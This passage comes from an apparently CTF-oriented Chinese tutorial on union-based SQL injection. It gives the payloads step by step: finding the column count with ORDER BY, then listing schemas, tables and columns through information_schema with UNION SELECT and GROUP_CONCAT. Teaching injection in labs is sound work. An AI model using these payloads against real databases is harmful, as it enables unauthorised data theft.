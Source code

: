 然而，用户的输入因为没有过滤的缘故，不管输入什么都会直接拼接到后面，所以我们可用用下面的步骤逐步得到数据库信息：

- 使用 `Order by` 确定列数，方便后续注入。

  ```SQL
  id = 1 Order by 1;
  id = 1 Order by 2;
  id = 1 Order by 3; # 报错 确定列数为 2 
  ```

- 使用联合查询 `union` 基于 `information_schema` 拿到数据库名

  ```SQL
  1 union SELECT 1,schema_name FROM information_schema.schemata;
  # or
  1 union SELECT schema_name,2 FROM information_schema.schemata;
  # 注意这里的 schema_name 一定要放在会显示的列名上面 比如password不显示 但是username显示 那么就用第二种。
  # 此时后台执行为:
  SELECT username,password FROM users WHERE id = 1 union SELECT 1,schema_name FROM information_schema.schemata;
  ```

​		![image-20230426195745130](https://nssctf.wdf.ink//img/WDTJ/202304261957162.png)

​		也可以把1换成其他的，比如`database()` 这样我们可以知道我们当前在哪个数据库

​		![image-20230426195952638](https://nssctf.wdf.ink//img/WDTJ/202304261959665.png)

- 下面就是用联合查询得到数据库里面的表名，一般步骤我们都是先获取当前库 ( `database()` ) 的表，再去看其他库的。

  这里我们基于`UNION` `GROUP_CONCAT(table_name)` 和 `information_schema.tables`

  ```sql
  1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
  1 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()
  # 原理同上
  # 如果要查询其他数据库 可以写为 where table_schema='databaseNAME'
  # 后台执行为：
  SELECT username,password FROM users WHERE id = 1 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()
  ```

  ![image-20230426201306290](https://nssctf.wdf.ink//img/WDTJ/202304262013324.png)

- 下面就是去获得 表 的对应字段名 方便我们最后一步的查询工作

  这里我们使用`UNION` `GROUP_CONCAT(column_name)` 和 `information_schema.columns`

  ```sql
  1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database()
  1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database()
  # 后台执行为：
  SELECT username,password FROM users WHERE id = 1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database();
  ```
